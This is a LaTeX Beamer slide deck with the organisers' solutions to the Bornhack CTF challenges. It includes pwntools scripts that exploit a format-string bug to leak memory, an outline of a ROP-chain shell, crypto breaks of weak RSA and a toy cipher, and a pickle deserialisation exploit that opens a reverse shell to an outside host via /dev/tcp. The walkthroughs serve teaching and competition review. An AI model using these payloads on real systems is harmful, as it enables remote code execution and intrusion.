\documentclass{beamer}
\usepackage{listings}

\lstdefinestyle{customc}{
  belowcaptionskip=1\baselineskip,
  breaklines=true,
  xleftmargin=\parindent,
  language=C,
  showstringspaces=false,
  basicstyle=\scriptsize\ttfamily,
  keywordstyle=\bfseries\color{green!40!black},
  commentstyle=\itshape\color{purple!40!black},
  identifierstyle=\color{blue},
  stringstyle=\color{orange},
}

\lstdefinestyle{custompy}{
  belowcaptionskip=1\baselineskip,
  breaklines=true,
  xleftmargin=\parindent,
  language=python,
  showstringspaces=false,
  basicstyle=\scriptsize\ttfamily,
  keywordstyle=\bfseries\color{green!40!black},
  commentstyle=\itshape\color{purple!40!black},
  identifierstyle=\color{blue},
  stringstyle=\color{orange},
}

\lstdefinestyle{customconsole}{
  basicstyle=\scriptsize\ttfamily,
}

\begin{document}
\title{Bornhack CTF - Epilog}

\author{Jonas \'Kokjo\' Rudloff}
\date{\today} 

\logo{
\includegraphics[height=2cm]{pwnies.png}\vspace{220pt}}

\frame{\frametitle{}\tableofcontents} 

\section{Final scoreboard}
\begin{frame}
    \frametitle{Final scoreboard}

    
\includegraphics[height=6cm]{scoreboard.png}

    We have removed some of the remote teams.
\end{frame}

\begin{frame}
    \center{\Huge Thanks for playing!}
\end{frame}

\section{How did we make it?}
\begin{frame}
    \frametitle{How did we make it?}
    \begin{itemize}
        \item Everything is running on a single machine. Hosted on Google cloud.
        \item 1 CPU, 4GB ram. Not much, but we did not need more than that.
        \item 25 challenges!
        \item ~10 people!
        \item ~2 months!
    \end{itemize}
\end{frame}

\section{Solution for Challenges}

\begin{frame}
    \center{\Huge Solutions!}
    \pause
    \center{(spoiler alert!)}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Port1337}
    \begin{enumerate}
        \item Connect to port 1337
        \item ???
        \item FLAG!
    \end{enumerate}

    \pause

    Easy!

    \pause     

    \begin{verbatim}
$ nc ctf.pwnies.dk 1337
Nope!
    \end{verbatim}

    \pause

    \begin{verbatim}
$ socat sctp:ctf.pwnies.dk:1337 -
flag{0abfaafd2f885609f1fcfc0b023936061442de1d}
    \end{verbatim}
    
    \pause
    
    Do i need to say more?
\end{frame}

\begin{frame}[fragile]
    \frametitle{Fmtstr}

    Small C program containing 4 flags. \\
    Vulnerable to format string attacks.

    \begin{lstlisting}[style=customc]
    // happy %%%dc%%%d$hhn'ing
    while(memcmp(buffer, "exit", 4)){
        memset(buffer, 0, sizeof(buffer));
        read(0, buffer, sizeof(buffer));
        buffer[sizeof(buffer)-1] = 0;
        dprintf(1, buffer);
    }
    \end{lstlisting}

    \pause

    The idea was to teach you format string exploitation in a few steps:
    \begin{enumerate}
        \pause \item Read data from stack(using \%d or \%p)
        \pause \item Follow pointer from stack(using \%s)
        \pause \item Arbitrary information leak(placing pointers on the stack)
        \pause \item Write-what-where(using \%n)
    \end{enumerate}
\end{frame}

\begin{frame}[fragile]
    \frametitle{fmtstr, 1. flag}

    First flag is in a buffer on the stack:
    \begin{lstlisting}[style=customc]
// Put the first flag on the stack
if(getenv("FLAG1")){
    strncpy(flag1, getenv("FLAG1"), sizeof(flag1));
}
    \end{lstlisting}

    \pause

    Solution:
    \begin{lstlisting}[style=custompy]
from pwn import *
context(arch="amd64", word_size=64)

r = remote("ctf.pwnies.dk", 31337)
r.sendline("%p,"*10)
data = r.clean().strip().replace("(nil)", "0").split(",")
data = flat([int(w.strip(), 16) for w in data if w.strip()])
log.info("Flag: \"%s\"", data[24:].strip("\00"))
    \end{lstlisting}

    \begin{lstlisting}[style=customconsole]
$ python doit-fmtstr-1.py 
[+] Opening connection to ctf.pwnies.dk on port 31337: Done
[*] Flag: "FLAG{Okay! So you can leak from the stack}"
[*] Closed connection to ctf.pwnies.dk port 31337
    \end{lstlisting}
\end{frame}

\begin{frame}[fragile]
    \frametitle{fmtstr, 2. flag}
    \begin{lstlisting}[style=customc]
// So where is this flag?
flag2_ptr = getenv("FLAG2");
    \end{lstlisting}
    
    \pause

    Solution:

    \begin{lstlisting}[style=customconsole]
$ echo "%73\$s" | nc ctf.pwnies.dk 31337
FLAG2=FLAG{GOOD! You can even follow pointers}
    \end{lstlisting}
\end{frame}

\begin{frame}[fragile]
    \frametitle{fmtstr, 3. flag}

    \begin{lstlisting}[style=customc]
// OMG! Have you seen my .bss section?
flag3_ptr = getenv("FLAG3");
if(flag3_ptr){
    strncpy(flag3, flag3_ptr, sizeof(flag3));
    memset(flag3_ptr, 0, strlen(flag3_ptr));
}
    \end{lstlisting}
    
    \pause

    Idea: read memory and follow pointer multiple times

    \pause
    Note that:
    \begin{lstlisting}[style=customconsole, basicstyle=\tiny]
$ echo "AAAAAAAA-%19\$p" | ./fmtstr 
AAAAAAAA-0x4141414141414141
    \end{lstlisting}
    so we can place pointer on the stack, and dereference it with \%s.
\end{frame}
\begin{frame}[fragile]
    \frametitle{fmtstr, 3. flag, continued}

    \begin{lstlisting}[style=customc]
from pwn import *
r = remote("ctf.pwnies.dk", 31337)
# leak some pointer from the stack
r.send("%p,"*33)
ptr = int(r.clean().split(",")[32], 16)
entrypoint_ptr = ptr + 0xb0 + 0x90 + 8

@MemLeak
def leak(addr):
    r.send("START%21$sSTOP".ljust(16) + p64(addr))
    r.recvuntil("START")
    return r.recvuntil("STOP", drop=True) + "\x00"

# locate the fmtstr program in memory
entrypoint = leak.q(entrypoint_ptr)
elfheader = entrypoint & ~0xfff # align down to page boundry
#dump to file, analyse with readelf
#write("elfheader", leak.n(elfheader, 1024))
#magic numbers found with readelf
bss = elfheader + 0x200dd8 + 0x290
#flag should be around here somewhere
flag = leak.n(bss, 128)
log.info("Flag: \"%s\"", flag.strip("\x00"))
    \end{lstlisting}
\end{frame}

\begin{frame}[fragile]
    \frametitle{fmtstr, 4. flag}
    \begin{lstlisting}[style=custompy]
// flag4 is in /home/fmtstr, you need to pop a shell...
    \end{lstlisting}

    \pause
    
    So how would you do that?

    \begin{itemize}
        \pause \item construct write-what-where primitive using \%hhn
        \pause \item lookup symbols in libc using DynElf from pwntools using the information leak
        \pause \item locate the stack
        \pause \item write rop chain
        \pause \item send "exit" to exit main loop retuning into rop chain
        \pause \item cat /home/flag
    \end{itemize}
\end{frame}

\begin{frame}[fragile]
    \frametitle{llama}
    
    Just a few line of simple python code

    \begin{lstlisting}[style=custompy]
Y = lambda f: f (lambda x: Y(f)(x))
M = lambda f: lambda (n, m): 0 if not n else m + f((n-1, m))
C = lambda f: lambda n: 1 if not n else Y(M)((n, f(n-1)))
A = lambda f: lambda n: 5 if not (n >> 1) else Y(M)((f(n-1), Y(C)(n)))

l = 0x6c6c616d612c6c6c616d612c6c6c616d61
g = lambda x: Y(A)(x) % l

print 'FLAG{%x}' % g(0x1337)
    \end{lstlisting}

    \pause
    
    Its just some lambda calculus!
\end{frame}

\begin{frame}[fragile]
    \frametitle{llama}

    Rewriting it:

    \begin{lstlisting}[style=custompy]
Y = lambda f: f (lambda x: Y(f)(x))
#M is just multiplication
#M = lambda f: lambda (n, m): 0 if not n else m+f((n-1, m))
M = lambda f: lambda (n, m): return n*m
C = lambda f: lambda n: 1 if not n else Y(M)((n, f(n-1)))
A = lambda f: lambda n: 5 if not (n >> 1) else Y(M)((f(n-1), Y(C)(n)))
    \end{lstlisting}
\end{frame}

\begin{frame}[fragile]
    \frametitle{llama}

    Rewriting it:

    \begin{lstlisting}[style=custompy]
Y = lambda f: f (lambda x: Y(f)(x))
#M is just multiplication
#M = lambda f: lambda (n, m): 0 if not n else m+f((n-1, m))
M = lambda f: lambda (n, m): return n*m
#C is realy just factorial
#C = lambda f: lambda n: 1 if not n else Y(M)((n, f(n-1)))
C = lambda f: lambda n: 1 if not n else n * Y(C)(n-1)
A = lambda f: lambda n: 5 if not (n >> 1) else Y(M)((f(n-1), Y(C)(n)))
    \end{lstlisting}
\end{frame}

\begin{frame}[fragile]
    \frametitle{llama}

    Rewriting it:

    \begin{lstlisting}[style=custompy]
l = 0x6c6c616d612c6c6c616d612c6c6c616d61
def C(n):
    x = 1
    while n:
        x *= n
        n -= 1
        x %= l
    return x
def A(n):
    x = 5
    while n:
        x *= C(n)
        n -= 1
        x %= l
    return x
print 'FLAG{%x}' % (A(0x1337) % l)
    \end{lstlisting}
    \pause 

    \begin{lstlisting}[style=customconsole]
$ time -p python doit-br0ns.py 
FLAG{68fa6f76566ac40d20661282591ba4439d}
real 3.46
    \end{lstlisting}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Close}
    
    Simple RSA implementation

    \pause

    It generates primes badly:

    \begin{lstlisting}[style=custompy]
def gen_primes():
    n = int(os.urandom(KEY_SIZE // 16).encode('hex'), 16)
    n = next_prime(n)
    while 1:
        yield n
        n = next_prime(n)
...
    g = gen_primes()
    p = next(g)
    q = next(g)
    N = p * q
    \end{lstlisting}

    \pause

    Solution:
    Calculate $\sqrt{N}$, count upward until reaching $q$, and from here RSA is easily broken.
\end{frame}

\begin{frame}[fragile]
    \frametitle{Tic-Tac-Toe}

    Small game coded using python-flask

    \pause

    Bug: Using pickle for serialization

    \pause

    \begin{lstlisting}[style=customconsole]
$ curl -vv ctf.pwnies.dk:8080/play
* Connected to ctf.pwnies.dk (35.195.144.56) port 8080
> GET /play HTTP/1.1
> Host: ctf.pwnies.dk:8080
> User-Agent: curl/7.52.1
> Accept: */*
> 
< HTTP/1.0 200 OK
< Content-Type: text/html; charset=utf-8
< Content-Length: 1146
< Set-Cookie: game=63636f7079..70a7031300a73622e; Path=/
< Server: Werkzeug/0.12.2 Python/2.7.9
< Date: Mon, 28 Aug 2017 07:02:36 GMT
    \end{lstlisting}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Tic-Tac-Toe, exploit}
    \begin{lstlisting}[style=custompy]
import pickle
import requests
import os

class exploit(object):
    def __reduce__(self):
        return (os.system,
            ("/bin/bash -c \"sh < /dev/tcp/ebfe.dk/1337 1>&0\"",)
        )

pickle_exploit = pickle.dumps(exploit()).encode("hex")

requests.get("http://ctf.pwnies.dk:8080/play",
    cookies={"game": pickle_exploit}
)
    \end{lstlisting}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Roll-Your-Own}

    \begin{lstlisting}[style=custompy]
@crypto
def enc(x, k):
    x = (x + k) % P
    x = (x * 1337) % P
    return x

    \end{lstlisting}
    
    where 'crypto' applies 'enc' to some plaintext $x$, $2^{20}$ times using a key $k$, and $P$ is some $256$ bit prime,

    and we have a known plaintext/chiphertext pair(lorem, loren.enc)

    \pause

    Consider applying 'enc' twice:
    
    \begin{align*}
        enc(enc(x, k)) &=  enc(1337*x + 1337*k, k) \pmod{P} \\
                       &= 1337^2 *x + 1337*1338 *k \pmod{P}
    \end{align*}

    \pause

    Applying it $2^{20}$ times just give a linear relation of the form:
    \[ enc_{2^{20}}(x, k) = A * x + B * k \pmod{P} \]
\end{frame}

\begin{frame}[fragile]
    \frametitle{Roll-Your-Own}
    From this equation we can isolate $k$ from the lorem/lorem.enc pair, using just basic algebra:
    \begin{align*}
         lorem.enc &= A * lorem + B * k \pmod{P} \\
         k &= (lorem.enc - A *lorem) * B^{-1} \pmod{P}
    \end{align*}

    \pause

    and use that to decrypt the flag.
    \begin{lstlisting}[style=custompy]
from main import *
...
A,B = 0, 1
for _ in xrange(2**20):
    A, B = enc(A, 1), enc(B, 0)
...
k = ((lorem_enc - A*lorem)*inv(B)) % P
print decrypt(flag_enc, k)
    \end{lstlisting}
\end{frame}

\begin{frame}
    \frametitle{We will be back next year!}
    
    With more fun challenges, more points, and more binaries!

    Join pwnies at \#gallopsled @ freenode !
\end{frame}

\end{document}
